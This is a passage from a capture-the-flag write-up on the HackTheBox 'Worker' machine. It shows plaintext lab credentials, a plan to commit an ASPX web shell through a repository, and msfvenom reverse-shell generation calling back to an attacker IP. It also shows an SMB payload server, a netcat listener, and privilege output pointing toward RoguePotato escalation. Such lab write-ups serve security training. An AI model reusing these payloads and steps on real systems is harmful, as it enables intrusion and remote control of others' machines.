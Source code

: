 ```
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

The credentials are valid and we can log in, but they don't work for Evil-WinRM (`evil-winrm -i 10.10.10.203 -u "nathen" -p "wendel98"` fails). After searching the site a bit, it seems that the repositories here correspond to the subdomains we found earlier. Playing around with the website shows us we can make commits too. We can start an SMB server with a exe reverse shell in it, upload a web shell (/usr/share/davtest/backdoors/aspx_cmd.aspx), spin up a netcat listener, then execute it. The web shell will probably be located at the respective subdomain of the branch that we merge.

```
//Generating the payload, spinning up the smb server, and creating a listener with rlwrap for a slightly better shell
┌──(root💀kali)-[/home/kali/HackTheBox/Worker]
└─# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.6 LPORT=4444 -f exe > shell.exe                                             
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes

//The machine did a security check on my smb server so I had to put smb2 support on
┌──(root💀kali)-[/home/kali/HackTheBox/Worker]
└─# smbserver.py share . -smb2support 

┌──(root💀kali)-[/home/kali]
└─# rlwrap nc -nvlp 4444  
```

<video width="730" height="548" controls>
  <source src="https://user-images.githubusercontent.com/68256613/145005823-5649f846-7d7d-4a11-9d09-3e5a1e9215bb.mp4" type="video/mp4">
</video>
We're in as the defaultapppool user. Checking our privileges, it appears that we have SeImpersonate, and because this is a Server 2019 (from running `systeminfo` on the machine), we could try a RoguePotato attack. Or we can enumerate further. We'll get back to that first option.

```
c:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


```
